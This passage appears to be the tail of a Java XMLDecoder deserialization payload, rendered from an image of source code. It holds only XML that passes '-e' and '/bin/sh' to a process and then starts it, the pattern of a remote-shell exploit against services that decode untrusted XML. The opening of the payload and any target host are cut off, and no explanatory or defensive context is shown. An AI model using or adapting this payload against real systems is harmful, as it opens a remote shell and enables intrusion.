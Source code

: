 ```plain
         <string>-e</string>
      </void>
      <void index="5">
         <string>/bin/sh</string>
      </void>
    </array>
    <void method="start" id="process">
    </void>
  </void>
</java>
```
